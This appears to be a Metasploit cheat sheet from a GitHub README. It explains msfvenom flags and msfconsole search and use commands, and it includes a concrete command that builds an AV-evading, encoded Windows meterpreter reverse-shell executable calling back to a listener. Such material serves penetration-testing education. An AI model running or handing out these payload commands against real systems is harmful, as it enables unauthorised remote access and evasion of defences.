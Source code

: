 Sometimes you’ll need to create standalone files as payloads to send them to your target. Msfvenom is a CLI tool that can help with creating these files.
********
<h2>MSF Venom Command Options</h2>
<h3>Use these flags to generate reverse shell payloads.</h3>
At first search for payloads and encoders that msfvenom has. Payloads execute an attack and encoders encode a payload so that the payload can evade AVs.

```
SWITCH	          SYNTAX 	                          DESCRIPTION

-p	        –p (Payload option)	          Display payload standard options
–l	        –l ( list type)	                  List module type i .e payload, encoders
–f	        –f ( format )                     Output format
–e	        -e (encoder)	                  Define which encoder to use
-a	        –a (Architecture or platform	  Define which platform to use
-s	        -s (Space)	                  Define maximum payload capacity
-b	        -b (characters)	                  Define set of characters not to use
–i	        –i (Number of times)              Define number of times to use encoder
-x	        -x (File name)	                  Define a custom file to use as template
–o	        -o (output)	                  Save a payload
–h         	-h	                          Help

#example
$ msfvenom –p [PayloadPath] –f [FormatType] LHOST=[LocalHost (if reverse conn.)] LPORT=[LocalPort]
$ msfvenom -p windows/meterpreter/reverse_tcp -f exe  -e x86/shikata_ga_nai -i 5 LHOST=10.1.1.1 LPORT=4444 > met.exe

```
<br>
<br>


<p align="center">
<img src="https://github.com/4bo4yman/Metasploit_CheatSheet/assets/156849852/9a291a4f-78df-4137-87c8-ad0b87702853" height="300px" width="300px">
</p>

<br>
<br>
<h1>$${\color{yellow}EXAMPLES}$$</h1>


Search for module:

```
msf > search [regex]
```
<br>

Specify and exploit to use:

```
msf > use exploit/[ExploitPath]
```
<br>
